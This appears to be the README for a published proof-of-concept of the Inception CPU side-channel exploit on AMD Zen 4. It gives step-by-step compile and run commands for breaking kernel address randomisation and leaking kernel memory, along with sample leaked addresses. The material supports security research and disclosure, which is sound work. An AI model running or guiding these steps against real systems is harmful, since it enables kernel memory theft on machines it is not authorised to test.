 This folder contains the PoC exploit of Inception for Zen 4. It requires Linux kernel 5.19.0-28-generic.

1. Compile inception_kaslr.c and inception.c. Pass two cores on the same physical core. For example:

clang -DCORE1=1 -DCORE2=9 inception_kaslr.c -o inception_kaslr
clang -DCORE1=1 -DCORE2=9 inception.c -o inception

2. Also compile the workloads for the sibling core. Pass the cache set which you want to stress. For example:

clang -DSET=40 workload.c -o workload

clang -DSET=40 workload2.c -o workload2

clang -DSET=40 workload3.c -o workload3

Changing SET (0 - 63) can sometimes improve the performance of the exploit. 

3. Run the Inception KASLR break:

./inception_kaslr

Note that finding the physical address of the reload buffer (second step of inception_kaslr) can take a few minutes, 
depending on the size of your physical memory.

5. Lastly, run Inception, and pass the kernel text, physmap address and a kernel address from which you want to leak:

./inception <INSERT KERNEL TEXT> <INSERT PHYSMAP ADDRESS> <INSERT KERNEL ADDRESS>

The results are printed to stdout and are also stored in data.bin. 
Before running, make sure transparent hugepages are enabled, since we rely on this feature for
reducing entropy (not a strict requirement of Inception).

Optional: The kmod in ./kmod can be installed to get an example kernel address from which we can leak:

cd ../kmod; make install; dmesg | tail -n 10; cd ../zen_4

The output of inception_kaslr should look like the following:

.............
Leaked _text: 0xffffffff8ea00000
...........
Physical: 0x2ba00000
...............................................
Leaked physmap: 0xffff9f6340000000
Broke KASLR in 216 seconds

When leaking from the provided kmod, the output of inception should look something like this:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...


